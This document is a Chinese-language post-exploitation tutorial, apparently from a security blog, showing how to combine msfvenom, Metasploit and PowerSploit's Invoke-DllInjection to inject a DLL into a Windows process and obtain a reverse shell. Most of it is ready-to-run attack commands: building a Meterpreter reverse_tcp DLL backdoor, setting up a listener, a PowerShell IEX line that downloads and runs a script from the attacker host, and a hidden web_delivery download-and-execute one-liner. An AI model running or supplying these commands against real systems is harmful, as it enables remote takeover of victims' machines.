 PowerSploit是又一款基于powershell的后渗透攻击框架。PowerSploit包括Inject-Dll(注入dll到指定进程)、Inject-Shellcode（注入shellcode到执行进程）等功能。
利用msfvenom、metasploit和PowerSploit中的Invoke-DllInjection.ps1 实现dll注入，反弹shell

1）msfvenom生成dll后门

```shell
msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=192.168.159.134 lport=6667 -f dll -o /var/www/html/PowerSploit/lltest.dll

# 说明：目标机64位 用x64 ； 32位的话用windows/meterpreter/reverse_tcp
```

![img](https://github.com/linl-sec/linlsec.github.io/blob/main/images/Web%E5%AE%89%E5%85%A8/t01b4caf8412924dfcc.png)

2）metasploit 设置payload 开启监听

```shell
use exploit/multi/handler
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST 192.168.159.134
set LPORT 6667
exploit
```

![img](https://github.com/linl-sec/linlsec.github.io/blob/main/images/Web%E5%AE%89%E5%85%A8/t012d0e9a74a7f468ca.png)

3）powershell 下载PowerSploit中Invoke-DllInjection.ps1和msfvenom生成的dll后门
首先上传dll文件到目标机。然后Get-Process 选定一个进程，最后注入到该进程

目标机执行:

```powershell
Get-Process #选择要注入的进程
IEX (New-Object Net.WebClient).DownloadString("http://192.168.159.134/PowerSploit/CodeExecution/Invoke-DllInjection.ps1")
Invoke-DllInjection -ProcessID 5816 -Dll C:UsersAdministratorDesktoplltest.dll
```

![img](https://github.com/linl-sec/linlsec.github.io/blob/main/images/Web%E5%AE%89%E5%85%A8/t013b399a39f86d7729.png)

![img](https://github.com/linl-sec/linlsec.github.io/blob/main/images/Web%E5%AE%89%E5%85%A8/t01121eca1107d335a1.png)

![img](https://github.com/linl-sec/linlsec.github.io/blob/main/images/Web%E5%AE%89%E5%85%A8/t017f8aa99b2a307bcf.png)

![img](https://github.com/linl-sec/linlsec.github.io/blob/main/images/Web%E5%AE%89%E5%85%A8/t01ebe09a11da4904bc.png)

### metasploit反弹shell

利用metasploit的web_delivery模块可通过python、php、powershell、regsvr32等进行反弹shell

攻击者(192.168.159.134)：

```shell
use exploit/multi/script/web_delivery
set PAYLOAD windows/meterpreter/reverse_tcp
set target 2
set LHOST 192.168.159.134
set LPORT 6666
exploit
目标机执行：
powershell.exe -nop -w hidden -c $f=new-object net.webclient;$f.proxy=[Net.WebRequest]::GetSystemWebProxy();
$f.Proxy.Credentials=[Net.CredentialCache]::DefaultCredentials;IEX $f.downloadstring('http://192.168.159.134:8080/4iNSwaMtwWjm');
```
